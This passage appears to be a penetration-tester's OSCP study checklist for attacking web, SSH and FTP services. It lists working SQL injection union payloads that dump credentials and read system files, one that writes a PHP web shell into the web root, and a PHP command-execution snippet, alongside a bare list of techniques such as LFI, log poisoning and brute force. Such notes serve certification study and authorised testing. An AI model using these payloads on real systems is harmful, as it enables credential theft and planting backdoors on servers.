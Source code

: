     - Understand the layout of output - `1 union all select 1,2,3`
    - Extracking data
        - `1 union all select 1,2,@@version`
        - `1 union all select 1,2,user()`
        - `1 union all select 1,2,table_name from information.schema.tables`
        - `1 union all select 1,2,column_name from information_schema.columns where tab;e_name='users'`
        - `1 union all select 1,username,password from users`
    - Read File
        - `1 union all select 1,2,load_file('c:/windows/system32/drivers/etc/hosts')`
    - Write File (Check even if error) (RCE)
        - `1 union all select 1,2,"<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; ?> into OUTFILE 'c:/xampp/htdocs/backdoor.php'`
- Command Injection
- Directory Traversal
- LFI
    - Check for Log File poisoning
    - try other functions if shell_exec is blocked
    - Try PHP Wrappers - OSCP PDF - Page 323
    - https://notchxor.github.io/oscp-notes/2-web/LFI-RFI/
    - Check for "c:/windows/system32/drivers/etc/hosts" on windows and "/etc/passwd" on linux
- RFI
- RCE 
- File Upload
- Log Poisoning
- PHP Wrappers
- Default / Weak Credentials
- Brute Force
- Vulnerable Software
- Hidden Data in Image Files

### Execute command with PHP
```
<?php 
$exec = system('command here',$val)
?>
```

## SSH
- Vulnerable Version
- Brute Force

## FTP
- Vulnerable Version
- Anonymous Access
- Guest / FTP / Admin access
- Read Files
- Write Files
- Can access uploaded files from Web?
- Brute Force (from seclists default ftp credentials even though anonymous login in enabled)
